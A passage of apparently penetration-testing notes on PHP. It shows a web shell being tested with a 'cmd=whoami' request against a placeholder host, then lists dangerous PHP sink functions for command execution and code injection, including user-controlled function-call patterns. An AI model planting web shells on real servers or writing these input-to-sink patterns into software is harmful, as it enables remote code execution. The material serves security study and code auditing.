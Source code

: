 And we can test that it works by supplying some command:

```default
http://vulnserver.example/shell.php?cmd=whoami

www-data
```

## Dangerous PHP functions Reference

* Stolen from here: https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720
* Which in turn was stolen from here: https://stackoverflow.com/a/3697776

> Most of these function calls are classified as Sinks. When a tainted variable (like $_REQUEST) is passed to a sink function, then you have a vulnerability. Programs like RATS and RIPS use grep like functionality to identify all sinks in an application. This means that programmers should take extra care when using these functions, but if they where all banned then you wouldn't be able to get much done. 

### Direct Command Execution

These straight up execute shell commands. Which is their intended use. User input should never end up in either of those or SHTF.

```default
exec           - Returns last line of commands output
passthru       - Passes commands output directly to the browser
system         - Passes commands output directly to the browser and returns last line
shell_exec     - Returns commands output
\`\` (backticks) - Same as shell_exec()
popen          - Opens read or write pipe to process of a command
proc_open      - Similar to popen() but greater degree of control
pcntl_exec     - Executes a program
```

### PHP Code Injection

These functions can lead to the execution of PHP code. Either directly, like with `eval()` or via file inclusion.

```default
eval()
assert()  - identical to eval()
preg_replace('/.*/e',...) - /e does an eval() on the match
create_function()
include()
include_once()
require()
require_once()
$_GET['func_name']($_GET['argument']);
$func = new ReflectionFunction($_GET['func_name']); $func->invoke(); or $func->invokeArgs(array());
```

### List of functions which accept callbacks
